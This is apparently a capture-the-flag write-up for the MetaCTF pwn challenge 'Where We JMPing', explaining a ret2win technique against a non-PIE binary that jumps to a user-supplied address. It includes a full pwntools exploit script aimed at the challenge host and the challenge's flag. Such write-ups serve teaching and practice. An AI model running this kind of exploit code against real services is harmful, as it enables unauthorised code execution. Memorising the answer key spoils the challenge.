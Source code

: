 # Where We JMPing - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/WhereWeJMPing.gif)

---

## Challenge Summary

The binary prompts the user to enter a memory address and then directly jumps to it via a function pointer. Since the binary is not PIE-enabled, all function addresses remain static and easily retrievable.

The objective is to use a tool like IDA Pro, Ghidra, or nm to locate the address of the hidden win() function within the binary, and then input that address when prompted. The program will jump to it, executing the function and printing the flag or completing the challenge logic.

This is a classic ret2win-style task, requiring no memory corruption — just knowledge of the function's address.

## Binary Information

```bash
$ file where_we_jmping
```

![Alt text](img/2.png)

```bash
$ pwn checksec where_we_jmping
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The main() function reads a user-supplied 64-bit memory address using scanf("%lx", &v4) and stores it in a function pointer. It then calls this pointer (v5()), effectively jumping to the user-provided address.
![Alt text](img/4.png)
Because PIE is disabled, all function addresses (including hidden ones) are fixed and visible. Using IDA Pro, we can locate the win() function easily in the .text segment. The function opens "flag.txt", reads its contents, and prints them character-by-character using putchar().
![Alt text](img/5.png)
There are no memory corruption vulnerabilities—this is a direct ret2win-style challenge, where the only requirement is to supply the correct address of win() when prompted.

The presence of stack canaries and NX is irrelevant here, as no overflow occurs. The lack of PIE is what enables the exploit.

---

## Exploit Strategy

No complex exploit is needed. This is a classic ret2win challenge.

Since PIE is disabled, the address of the win() function is static and can be retrieved using tools like IDA Pro, Ghidra, or nm. Once identified, the player simply inputs the address when prompted by the program.

The binary will then jump directly to that address and execute the win() function, which reads and prints the contents of flag.txt. No memory corruption, bruteforce, or bypass is required.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template where_we_jmping --host kubenode.mctf.io --port 30006
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'where_we_jmping')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30006)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

win_addr = b'0x4011a6'
io.recvuntil(b'Enter a memory address to jump to (as a hexadecimal, e.g., 0x401222): ')
io.sendline(win_addr)
for i in range(2) :
    io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program takes a user-supplied memory address and directly jumps to it. With PIE disabled, function addresses like win() are static and easy to find. This allows the user to redirect execution without any memory corruption, making it a simple ret2win vulnerability.

## Flag

```
MetaCTF{jmp1ng_t0_th3_g00d_l00t}
```
